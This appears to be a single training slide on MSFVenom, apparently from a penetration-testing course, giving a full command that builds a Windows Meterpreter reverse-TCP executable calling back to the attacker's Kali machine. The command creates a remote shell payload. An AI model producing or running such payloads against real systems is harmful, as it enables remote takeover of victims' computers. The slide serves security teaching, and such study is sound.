

# MSFVenom
Create a payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local host> LPORT=5000 -f exe > payload.exe

Local Host: your Kali machine IP address
LPORT: choose any port. Pick a high number